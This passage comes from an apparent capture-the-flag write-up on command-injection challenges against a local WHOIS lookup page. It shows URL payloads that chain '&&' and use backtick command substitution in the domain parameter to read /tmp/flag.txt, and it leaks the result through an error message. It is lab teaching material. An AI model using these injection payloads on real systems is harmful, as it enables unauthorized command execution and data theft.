 ```{% raw %}

To use `&&` in the URL the ampersands must be encoded. Ampersands are an "unsafe" character per [RFC-1738](http://www.ietf.org/rfc/rfc1738.txt) and must be encoded when not in use as a parameter delimiter. `%26` as ampersand is one of those things you just remember after a while.

Try,

```{% raw %}
http://127.0.0.1:8082/index.php?domain=google.com%20%26%26%20cat%20/tmp/flag.txt&submit=Lookup
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce2-003.png)

# Challenge 3

![RCE Cornucopia](/img/rce-cornucopia/rce3-000.png)

Try it.

```{% raw %}
http://127.0.0.1:8083/index.php?domain=google.com&submit=Lookup
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce3-001.png)

With our ability to chain commands pretty well defeated, let's try [command substitution](http://www.tldp.org/LDP/abs/html/commandsub.html). It is what it sounds like - replace a command with it's output on the command line. A simple example,

![RCE Cornucopia](/img/rce-cornucopia/rce3-005.png)

Trying command substitution using back-ticks,

```{% raw %}
http://127.0.0.1:8083/index.php?domain=`cat%20/tmp/flag.txt`&submit=Lookup
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce3-002.png)

Hard to tell if that worked or not given the output.

The format of WHOIS results depends on the TLD. Note in the following example looking up some random garbage returns a brief error, but looking up a nonexistent `.com` domain echoes the domain in the error message. 

![RCE Cornucopia](/img/rce-cornucopia/rce3-003.png)

We can use this to our advantage. Throw a `.com` after the flag value so we're looking up... we don't know what but it ends in `.com` now!

```{% raw %}
http://127.0.0.1:8083/index.php?domain=`cat%20/tmp/flag.txt`.com&submit=Lookup
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce3-004.png)

If this was a CTF and capitalization was important for the scoreboard I'd guess based on the formatting of previous challenges.

# Challenge 4

![RCE Cornucopia](/img/rce-cornucopia/rce4-000.png)

Do it.
```
